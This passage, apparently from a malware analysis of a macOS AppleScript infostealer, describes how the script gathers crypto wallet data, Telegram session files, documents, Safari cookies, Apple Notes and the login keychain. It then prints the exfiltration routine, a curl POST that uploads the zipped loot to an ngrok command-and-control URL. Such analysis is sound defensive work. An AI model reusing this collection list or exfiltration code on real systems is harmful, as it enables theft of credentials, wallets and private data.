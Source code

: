 **b. Wallet Data Collection**
- **Desktop Wallets** :
    - The script collects data from various cryptocurrency wallets, including:
        - Electrum
        - Coinomi
        - Exodus
        - Atomic
        - Wasabi
        - Ledger Live
        - Monero
        - Bitcoin Core
        - Litecoin Core
        - Dash Core
        - Trezor Suite
    - Wallet data is saved in a subdirectory named `deskwallets/`.
 
**c. Telegram Data Collection**
- **Telegram Desktop** :
    - The script collects data from the Telegram Desktop application, specifically targeting the `tdata/` directory, which contains chat history and other sensitive information.
    - This data is saved in a subdirectory named `Telegram Data/`.

 **d. File Grabber**
- **FileGrabber Functionality** :
    - The script searches for files with specific extensions (e.g., `.pdf`, `.docx`, `.wallet`, `.keys`) in the user's Desktop, Documents, and Downloads folders.
    - Files are copied to a subdirectory named `FileGrabber/` if their total size does not exceed 10 MB.
    - Additional files like Safari cookies (`Cookies.binarycookies`) and Apple Notes data (`NoteStore.sqlite`) are also collected.

####  5. Keychain and Notes Data
- **Keychain Access** :
    - The script copies the macOS login keychain (`login.keychain-db`) to the `writemind` directory.
- **Apple Notes** :
    - The script collects Apple Notes data (`NoteStore.sqlite` and related files) and saves them in the `FileGrabber/` directory.

#### 6. Sending Collected Data
- **Sending Data to C2** :
    - The script attempts to send the collected data to a remote server using an HTTP POST request via `curl`.
    - The data is sent as a ZIP file (`out.zip`) containing all the collected files.
    - If the transmission fails, the script retries up to 40 times with a delay of 3 seconds between attempts.

```
on send_data(attempt)

    try

        set result_send to do shell script "curl -X POST -H \"user: 85JDXWQ4CL67-XaZnPqOLmHFv1yNRXZOmNTpeJMw4AP=\" -H \"BuildID: /xpLmzYqPrVH-jKOpfmncviXt2zDgp/-NFM7tQhb6tp=\" --max-time 300 --retry 5 --retry-delay 10 -F \"file1=@/tmp/out.zip\" http://b2eb-115-135-31-192.ngrok-free.app/joinsystem"

    on error

        if attempt < 40 then

            delay 3

            send_data(attempt + 1)

        end if

```